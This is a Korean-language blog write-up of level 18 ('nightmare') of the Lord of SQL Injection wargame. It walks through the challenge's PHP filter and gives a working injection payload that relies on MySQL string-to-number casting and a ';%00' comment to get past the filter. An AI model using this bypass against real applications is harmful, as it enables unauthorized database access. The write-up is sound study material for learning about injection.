 ```yaml
---
title: Lord of SQL Injection Write Up No.18 Nightmare
date: 2019-09-08 22:19:09
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 18번 nightmare 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

주석 필터링을 우회하고 MySQL Auto Casting을 이용하여 SQL Injection을 할 수 있는지 확인한다.

### 필요 배경 지식

#### MySQL Type Conversion, Auto Casting

- MySQL에도 기타 프로그래밍 언어처럼 형 변환이 존재한다.
- 그 중 문자열 관련 자료형이 숫자 자료형으로 변환되는 경우 문자열에서 문자가 나오기 전에 나오는 숫자만 변환되고 만약 문자가 가장 먼저 나오면 0으로 변환된다.
- MySQL의 Type Conversion에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [MySQL :: MySQL 5.7 Reference Manual :: 12.2 Type Conversion in Expression Evaluation](https://dev.mysql.com/doc/refman/5.7/en/type-conversion.html)

#### MySQL 주석

- MySQL에서 사용될 수 있는 주석에는 `#`, `--%20` 뿐만 아니라 `;%00`, `/*` 등도 있다.

### 소스 코드 분석

nightmare 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~");
  if(strlen($_GET[pw])>6) exit("No Hack ~_~");
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("nightmare");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~");
  if(strlen($_GET[pw])>6) exit("No Hack ~_~");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()`, `#`, `-` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, 받은 `pw`의 길이가 6 이상이면 `No Hack ~_~`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("nightmare");
```

- 받은 `id`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 참이 되는 어떤 문자열이든 들어있음'이다.

## Solution

1. MySQL Auto Casting, 주석 우회 이용

   MySQL에서 문자열과 숫자를 연산하면 숫자 자료형으로 Auto Casting이 일어난다.
   이때, 문자가 숫자로 시작하지 않으면 `0`으로 변환되게 된다.

   이를 이용하여, 문자로 시작하는 모든 `pw`를 가져오는 WHERE절을 구성할 수 있다.
   `%2b`는 `+`이다.

   ```url
   http://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw='%2b0);%00
   ```

   ```sql
   select id from prob_nightmare where pw=(''+0);') and id!='admin'
   ```
